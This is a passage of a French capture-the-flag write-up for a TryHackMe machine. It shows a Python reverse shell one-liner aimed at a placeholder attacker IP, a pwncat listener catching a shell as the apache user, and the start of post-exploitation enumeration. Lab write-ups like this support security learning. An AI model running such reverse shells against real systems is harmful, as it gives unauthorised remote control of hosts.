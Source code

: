 Ensuite, nous pouvons créer un reverse shell en Python

```bash
# which python # Nous vérifions d'abord que Python est disponible sur la machine cible
/usr/bin/python
# Ensuite, nous exécutons le reverse shell Python
# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<THM_LOCAL_IP",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

```

```bash
pwncat -lp 4444
[11:35:05] Bienvenue à pwncat 🐈! __main__.py:164
[11:37:48] connexion reçue de 10.10.35.124:53306 bind.py:84
[11:37:49] 0.0.0.0:4444: mise à niveau de /usr/bin/dash à /usr/bin/bash manager.py:957
[11:37:50] 10.10.35.124:53306: nouvel hôte enregistré avec la base de données manager.py:957
(local) pwncat\$
# En utilisant CTRL + D, nous obtenons un reverse shell propre
(remote) apache@tryhackme:/data/www/default\$ id
uid=1001(apache) gid=1001(apache) groups=1001(apache)

```

**Note : J'ai essayé de nombreux payloads de reverse shell (Bash, Netcat, Perl, etc.) mais je continuais à obtenir cette erreur : `[-] No valid response received or target not vulnerable`. Seul celui en Python a fonctionné pour moi.**

## Post-exploitation

OK, maintenant que nous avons accès à la machine cible, nous devons trouver un "processus suspect".

J'ai essayé d'utiliser la commande `ps -aux` mais je n'ai rien trouvé.

```bash
ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 169644 12888 ?        Ss   08:58   0:02 /sbin/init
root           2  0.0  0.0      0     0 ?        S    08:58   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   08:58   0:00 [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   08:58   0:00 [rcu_par_gp]
root           5  0.0  0.0      0     0 ?        I<   08:58   0:00 [slub_flushwq]
root           6  0.0  0.0      0     0 ?        I<   08:58   0:00 [netns]
root           8  0.0  0.0      0     0 ?        I<   08:58   0:00 [kworker/0:0H-events_highpri]
root          10  0.0  0.0      0     0 ?        I<   08:58   0:00 [mm_percpu_wq]
root          11  0.0  0.0      0     0 ?        S    08:58   0:00 [rcu_tasks_rude_]
root          12  0.0  0.0      0     0 ?        S    08:58   0:00 [rcu_tasks_trace]
[..................................................................................]
```

Regardons autour du système pour voir s'il y a des informations intéressantes (identifiants, clés ssh, fichiers SUID, etc.). → Rien non plus à première vue.

### Énumération locale
